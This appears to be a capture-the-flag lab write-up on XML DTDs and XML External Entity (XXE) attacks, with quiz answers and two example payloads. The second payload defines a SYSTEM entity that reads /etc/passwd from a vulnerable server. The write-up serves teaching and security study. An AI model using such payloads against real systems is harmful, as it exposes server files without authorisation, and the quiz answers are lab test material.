 
So now let's understand how that DTD validates the XML. Here's what all those terms used in note.dtd mean

    !DOCTYPE note -  Defines a root element of the document named note
    !ELEMENT note - Defines that the note element must contain the elements: "to, from, heading, body"
    !ELEMENT to - Defines the to element to be of type "#PCDATA"
    !ELEMENT from - Defines the from element to be of type "#PCDATA"
    !ELEMENT heading  - Defines the heading element to be of type "#PCDATA"
    !ELEMENT body - Defines the body element to be of type "#PCDATA"

    NOTE: #PCDATA means parseable character data.

Answer the questions below

How do you define a new ELEMENT?
```
!ELEMENT
```

How do you define a ROOT element?
```
!DOCTYPE
```

How do you define a new ENTITY?
```
!ENTITY
```

#  Task 15 [Severity 4] XML External Entity - XXE Payload

Now we'll see some XXE payload and see how they are working.

1) The first payload we'll see is very simple. If you've read the previous task properly then you'll understand this payload very easily.

<!DOCTYPE replace [<!ENTITY name "feast"> ]>
 <userInfo>
  <firstName>falcon</firstName>
  <lastName>&name;</lastName>
 </userInfo>


As we can see we are defining a ENTITY called name and assigning it a value feast. Later we are using that ENTITY in our code.

2) We can also use XXE to read some file from the system by defining an ENTITY and having it use the SYSTEM keyword

<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>

Here again, we are defining an ENTITY with the name `read` but the difference is that we are setting it value to `SYSTEM` and path of the file.

If we use this payload then a website vulnerable to XXE(normally) would display the content of the file /etc/passwd.
